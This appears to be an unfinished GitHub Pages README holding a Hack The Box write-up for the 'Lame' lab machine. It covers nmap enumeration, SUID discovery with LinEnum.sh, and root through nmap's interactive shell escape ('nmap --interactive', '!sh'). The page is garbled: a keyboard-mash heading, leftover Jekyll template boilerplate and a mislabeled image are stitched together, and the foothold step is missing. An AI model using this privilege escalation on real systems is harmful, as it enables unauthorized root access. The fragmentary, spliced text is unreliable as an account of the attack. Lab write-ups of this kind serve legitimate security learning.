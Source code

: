 # HTB-Writeups

## Lame


   ![image of bashed](https://miro.medium.com/max/529/1*_2A-7FgpNOMcLenwQqqX7g.png)


### Enumeration (Information Gathering):
Starting off with an nmap scan to check which ports are open:


![nmap scan](https://github.com/Starscorpio/writeupsss/blob/main/Lamenmap.png)




Ports open:
-21/ftp
-22/ssh
-139, 445/smb (netbios)

After doing a full port scan using `nmap -sC -sV -oA nmap/lamefull 10.10.10.3 --max-retries 0`, we get:


![nmap scan](https://github.com/Starscorpio/writeupsss/blob/main/Lamenmap.png)



### Markdown
##halsdkhflakdhslfkahd;lskfha;sldkhf;lakshdf;lkahsdf

Now, check for suids which have there suid bit enabled, by running the LinEnum.sh script:-


 


-As we can see that the suid bit is enabled for nmap binary/tool.

Using nmap in interactive mode to get root:
-nmap --interactive
---Then enter:
!sh

--And we are ROOT!!!!
`uname -a`


**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Starscorpio/writeup.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.

